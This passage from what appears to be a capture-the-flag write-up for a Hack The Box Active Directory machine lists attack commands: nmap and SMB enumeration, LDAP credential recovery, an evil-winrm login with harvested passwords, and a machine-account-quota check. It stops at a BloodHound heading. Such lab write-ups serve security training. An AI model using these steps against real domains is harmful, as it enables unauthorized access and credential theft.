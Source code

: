             </li>
            <li class="flex items-start gap-2">
                <i class="fas fa-check text-green-500 mt-1"></i>
                <span>AD privilege segmentation</span>
            </li>
        </ul>
    </div>
</div>

---

## 📝 Command Summary

### 🔍 Phase 1: Reconnaissance & Initial Access (Linux)

```bash
# 1. Network scan
nmap -sC -sV -Pn 10.129.178.26

# 2. SMB enumeration
smbclient -L \\\\10.129.178.26\\
smbclient \\\\10.129.178.26\\support-tools
# → Download UserInfo.exe.zip

# 3. LDAP password decryption (after reverse engineering)
python3 decrypt.py
# → Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

# 4. LDAP query to enumerate users
ldapsearch -h support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
# → Find 'support' password in 'info' attribute

# 5. WinRM connection with support user
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```

### 🔐 Phase 2: AD Enumeration (PowerShell on target)

```powershell
# 1. Check domain and groups
Get-ADDomain
whoami /groups
# → Member of 'Shared Support Accounts'

# 2. Check machine creation quota
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
# → Quota = 10 (we can create machines)
```

### 🕸️ Phase 3: BloodHound Collection (PowerShell)
